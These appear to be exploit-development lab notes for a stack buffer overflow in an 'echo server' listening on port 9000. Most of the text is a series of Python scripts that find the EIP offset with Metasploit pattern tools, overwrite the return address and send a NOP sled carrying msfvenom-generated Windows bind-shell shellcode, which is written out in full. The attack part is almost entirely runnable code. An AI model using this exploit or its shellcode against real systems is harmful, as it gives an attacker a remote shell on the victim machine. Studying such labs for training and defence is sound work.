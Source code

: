 
---
FuzzerA.py  (Gutted from [[1._Echo-Server-V1#FuzzerF py]])
```
import socket, sys

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect((sys.argv[1], 9000))

buffer = "A" * 2000


sock.send(buffer)

sock.close()
```
---

```
msf-pattern_create -l 2000
```

EIP = 69423569

```
msf-pattern_offset -l 2000 -q 69423569
```

This program will send a 2000-byte attack to the server, consisting of 1036 'A' characters followed by 'BBBB' which should end up in the EIP, and enough 'C' characters to make the total 2000 bytes long.

---
FuzzerB.py
```
import socket, sys

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect((sys.argv[1], 9000))

buffer = "A" * 1036
buffer += "BBBB"
buffer += "C" * 2000

sock.send(buffer)

sock.close()
```
---

Notice below, we do NOT have a consistent ABC layout like before.  The "C"'s are cut off.  We will pick an address seen lower in the "A"'s (0022F764)

64 F7 22 00

---
FuzzerC.py
```
import socket, sys

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect((sys.argv[1], 9000))

buffer = "A" * 1036
buffer += "\x64\xF7\x22\x00"
buffer += "C" * 2000

sock.send(buffer)

sock.close()
```
---

Added a break point to begin of function (00401520)

Run exploit, step over (F8) until we hit RETN (00401570)

```
msfvenom -p windows/shell_bind_tcp -f c -a x86
```

---
FuzzerC.py
```
import socket, sys

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect((sys.argv[1], 9000))


shellcode = (
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
"\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
"\x29\x80\x6b\x00\xff\xd5\x6a\x08\x59\x50\xe2\xfd\x40\x50\x40"
"\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x68\x02\x00\x11\x5c\x89"
"\xe6\x6a\x10\x56\x57\x68\xc2\xdb\x37\x67\xff\xd5\x57\x68\xb7"
"\xe9\x38\xff\xff\xd5\x57\x68\x74\xec\x3b\xe1\xff\xd5\x57\x97"
"\x68\x75\x6e\x4d\x61\xff\xd5\x68\x63\x6d\x64\x00\x89\xe3\x57"
"\x57\x57\x31\xf6\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c"
"\x01\x01\x8d\x44\x24\x10\xc6\x00\x44\x54\x50\x56\x56\x56\x46"
"\x56\x4e\x56\x56\x53\x56\x68\x79\xcc\x3f\x86\xff\xd5\x89\xe0"
"\x4e\x56\x46\xff\x30\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5"
"\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb"
"\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5"
)

buffer = "\x90" * 36
buffer += shellcode
buffer += "\x90" * (1036 - 36 - len(shellcode))
buffer += "\x64\xF7\x22\x00"


sock.send(buffer)

sock.close()
```
---


After hitting the breakpoint (00401520), we step over (F8) until RETN (00401570)

Here we see our nops:

Let's look at the first line:

0022F72C     0022F764

Notice we can see 0022F764 down at the bottom as well, with all the NOPS in the middle.  We could easily edit the return in our exploit to something in the middle, like:

0022F750


---
FuzzerD.py
```
import socket, sys

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect((sys.argv[1], 9000))


shellcode = (
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
"\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
"\x29\x80\x6b\x00\xff\xd5\x6a\x08\x59\x50\xe2\xfd\x40\x50\x40"
"\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x68\x02\x00\x11\x5c\x89"
"\xe6\x6a\x10\x56\x57\x68\xc2\xdb\x37\x67\xff\xd5\x57\x68\xb7"
"\xe9\x38\xff\xff\xd5\x57\x68\x74\xec\x3b\xe1\xff\xd5\x57\x97"
"\x68\x75\x6e\x4d\x61\xff\xd5\x68\x63\x6d\x64\x00\x89\xe3\x57"
"\x57\x57\x31\xf6\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c"
"\x01\x01\x8d\x44\x24\x10\xc6\x00\x44\x54\x50\x56\x56\x56\x46"
"\x56\x4e\x56\x56\x53\x56\x68\x79\xcc\x3f\x86\xff\xd5\x89\xe0"
"\x4e\x56\x46\xff\x30\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5"
"\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb"
"\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5"
)

buffer = "\x90" * 36
buffer += shellcode
buffer += "\x90" * (1036 - 36 - len(shellcode))
buffer += "\x64\xF7\x22\x00"


sock.send(buffer)

sock.close()
```


---
FuzzerE.py
```
import socket, sys

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect((sys.argv[1], 9000))


shellcode = (
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
"\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
"\x29\x80\x6b\x00\xff\xd5\x6a\x08\x59\x50\xe2\xfd\x40\x50\x40"
"\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x68\x02\x00\x11\x5c\x89"
"\xe6\x6a\x10\x56\x57\x68\xc2\xdb\x37\x67\xff\xd5\x57\x68\xb7"
"\xe9\x38\xff\xff\xd5\x57\x68\x74\xec\x3b\xe1\xff\xd5\x57\x97"
"\x68\x75\x6e\x4d\x61\xff\xd5\x68\x63\x6d\x64\x00\x89\xe3\x57"
"\x57\x57\x31\xf6\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c"
"\x01\x01\x8d\x44\x24\x10\xc6\x00\x44\x54\x50\x56\x56\x56\x46"
"\x56\x4e\x56\x56\x53\x56\x68\x79\xcc\x3f\x86\xff\xd5\x89\xe0"
"\x4e\x56\x46\xff\x30\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5"
"\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb"
"\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5"
)

buffer = "\x90" * 36
buffer += shellcode
buffer += "\x90" * (1036 - 36 - len(shellcode))
buffer += "\x50\xF7\x22\x00"


sock.send(buffer)

sock.close()
```


After hitting the breakpoint (00401520), we step over (F8) until RETN (00401570)

NOW we can see that the NOP SLED will be executed before hitting the shellcode!

